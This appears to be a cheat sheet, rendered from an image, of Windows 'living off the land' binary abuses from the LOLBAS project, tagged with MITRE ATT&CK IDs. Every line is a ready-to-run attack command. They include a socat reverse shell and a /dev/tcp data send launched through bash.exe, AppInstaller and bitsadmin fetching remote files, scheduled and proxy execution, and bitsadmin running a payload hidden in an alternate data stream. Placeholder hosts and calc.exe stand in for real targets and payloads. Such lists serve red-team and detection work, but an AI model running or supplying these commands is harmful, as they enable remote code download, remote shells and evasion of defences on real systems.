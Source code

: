 # Source: https://lolbas-project.github.io/#

# AppInstaller.exe T1105
start ms-appinstaller://?source=https://127.0.0.1/bad.txt

# Aspnet_Compiler.exe T1127
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_compiler.exe -v none -p C:\asptest\ -f C:\asptest\none -u

# at.exe T1053.002
C:\Windows\System32\at.exe at 09:00 /interactive /every:m,t,w,th,f,s,su C:\Windows\System32\calc.exe

# Atbroker.exe T1218
C:\Windows\System32\Atbroker.exe /start calc.exe
C:\Windows\SysWOW64\Atbroker.exe /start calc.exe

# Bash.exe T1202
C:\Windows\System32\bash.exe -c calc.exe
C:\Windows\System32\bash.exe -c "socat tcp-connect:127.0.0.1:80 exec:sh,pty,stderr,setsid,sigint,sane"
C:\Windows\System32\bash.exe -c 'cat calc.exe > /dev/tcp/127.0.0.1/24'

# Bitsadmin.exe T1564.004
C:\Windows\System32\bitsadmin.exe /create myfile
C:\Windows\System32\bitsadmin.exe /addfile myfile c:\windows\system32\notepad.exe c:\notepad.exe
C:\Windows\System32\bitsadmin.exe /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
C:\Windows\System32\bitsadmin.exe /RESUME myfile


# Bitsadmin.exe T1105
C:\Windows\System32\bitsadmin.exe /create 1 
C:\Windows\System32\bitsadmin.exe /addfile 1 https://live.sysinternals.com/autoruns.exe c:\autoruns.exe 
C:\Windows\System32\bitsadmin.exe /RESUME 1
C:\Windows\System32\bitsadmin.exe /complete 1

# Bitsadmin.exe T1105
C:\Windows\System32\bitsadmin.exe /create 1
C:\Windows\System32\bitsadmin.exe /addfile 1 c:\windows\system32\cmd.exe c:\cmd.exe
C:\Windows\System32\bitsadmin.exe /RESUME 1
C:\Windows\System32\bitsadmin.exe /Complete 1
C:\Windows\System32\bitsadmin.exe /reset

# Bitsadmin.exe T1218
C:\Windows\System32\bitsadmin.exe /create 1
C:\Windows\System32\bitsadmin.exe /addfile 1 c:\windows\system32\cmd.exe c:\cmd.exe
C:\Windows\System32\bitsadmin.exe /SetNotifyCmdLine 1 c:\cmd.exe NULL
C:\Windows\System32\bitsadmin.exe /RESUME 1
C:\Windows\System32\bitsadmin.exe /Reset

